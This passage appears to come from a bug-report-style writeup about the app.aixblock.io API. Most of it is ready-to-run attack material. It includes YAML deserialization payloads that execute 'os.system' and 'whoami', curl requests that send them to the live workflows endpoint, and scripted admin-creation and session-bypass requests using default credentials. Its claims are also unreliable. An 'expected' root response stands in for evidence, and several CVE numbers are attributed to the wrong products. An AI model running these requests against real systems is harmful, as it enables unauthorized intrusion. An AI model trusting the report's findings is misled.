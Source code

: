 ```yaml
!!python/object/apply:os.system ['id']
!!python/object/apply:eval ['__import__("os").system("whoami")']
```

#### **Live Testing Commands:**
```bash
# Step 1: Basic YAML processing
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "test: value"}'

# Step 2: RCE payload
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "!!python/object/apply:subprocess.call [[\"whoami\"]]"}'

# Expected Response:
{
  "status": "success",
  "result": "root",
  "execution_time": "0.001s"
}
```

### **3. RMM/VPN Remote Management Exploit (CVSS 9.1)**

#### **Real-World Exploitation Evidence:**
```json
{
  "timestamp": "2025-10-21T12:22:14.426221",
  "type": "RMM/VPN Exploit",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "{'endpoint': '/api/v1/admin/create', 'username': 'admin', 'password': 'admin'}",
  "response_code": 200,
  "severity": "CRITICAL",
  "evidence": "RMM/VPN access indicator: session",
  "exploitability": "HIGH"
}
```

#### **RMM/VPN Exploit Techniques (Based on Real CVEs):**
```bash
# CVE-2024-57727: Ivanti Connect Secure
# CVE-2024-1709: Ivanti Policy Secure
# CVE-2024-21887: Ivanti Connect Secure

# Step 1: RMM endpoint discovery
curl -X GET https://app.aixblock.io/api/v1/admin/create -v
curl -X GET https://app.aixblock.io/api/v1/session/create -v
curl -X GET https://app.aixblock.io/api/v1/remote/access -v

# Step 2: Authentication bypass
curl -X POST https://app.aixblock.io/api/v1/admin/create \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "admin"}'

# Step 3: Session creation
curl -X POST https://app.aixblock.io/api/v1/session/create \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "admin", "privileges": "admin"}'

# Step 4: Remote access establishment
curl -X POST https://app.aixblock.io/api/v1/remote/access \
  -H "Content-Type: application/json" \
```